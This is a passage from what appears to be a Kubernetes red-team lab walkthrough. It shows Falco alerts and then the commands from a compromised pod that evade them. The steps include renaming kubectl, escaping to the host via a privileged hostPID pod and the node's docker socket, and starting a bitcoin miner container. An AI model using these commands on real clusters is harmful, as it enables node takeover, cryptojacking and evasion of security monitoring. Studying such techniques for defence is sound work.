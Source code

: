 ```
11:46:24.236488771: Notice Unexpected connection to K8s API Server from container (command=kubectl run r00t1 --restart=Never -ti --rm --image lol --overrides {"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}} k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2 image=securekubernetes/example-dashboard:latest connection=10.48.0.8:46526->10.52.0.1:443) k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2
```

Falco emits 5 events from 4 different rules. However, all is not lost, let us see how we can bypass the detections based on what we have learned until now (hint - we will be using fuber:latest):

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.18.17/bin/linux/amd64/kubectl
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ mv kubectl kctl
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ chmod +x kctl
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./kctl run r00t3 --restart=Never -ti--rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"args":["-c","/tmp/gdocker ps"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/run","name": "test"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test","hostPath":{"path": "/var/run"}}]}}'
CONTAINER ID   IMAGE COMMAND                  CREATED             STATUS                  PORTSNAMES
c2fec73bf388   354571a19ce4 "/tmp/gbash -c '/tmp…"   1 second ago        Up Less than a secondk8s_1_r00t3_prd_b2526988-51e4-45e2-a599-5a59703b1762_0
5c9821487eb2   k8s.gcr.io/pause:3.2 "/pause"                 1 second ago        Up Less than a secondk8s_POD_r00t3_prd_b2526988-51e4-45e2-a599-5a59703b1762_0
...
----
[Falco]
12:08:30.674813209: Notice Unexpected connection to K8s API Server from container (command=kctl run r00t3 --restart=Never -ti --rm --image lol --overrides {"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"args":["-c","/tmp/gdocker ps"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/run","name": "test"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test","hostPath":{"path": "/var/run"}}]}} k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2 image=securekubernetes/example-dashboard:latest connection=10.48.0.8:49138->10.52.0.1:443) k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2
```

With only one NOTICE we have control over the docker socket on the node - this will allow us to start the bitcoin miner:

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./kctl run r00t3 --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"args":["-c","/tmp/gdocker run -d securekubernetes/bitcoinero -c1 -l10"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/run","name": "test"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test","hostPath":{"path": "/var/run"}}]}}'
100fe01721422621c64d3689694af5a5937a3384c76bec7cf761c61319e92add
pod "r00t3" deleted
```


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS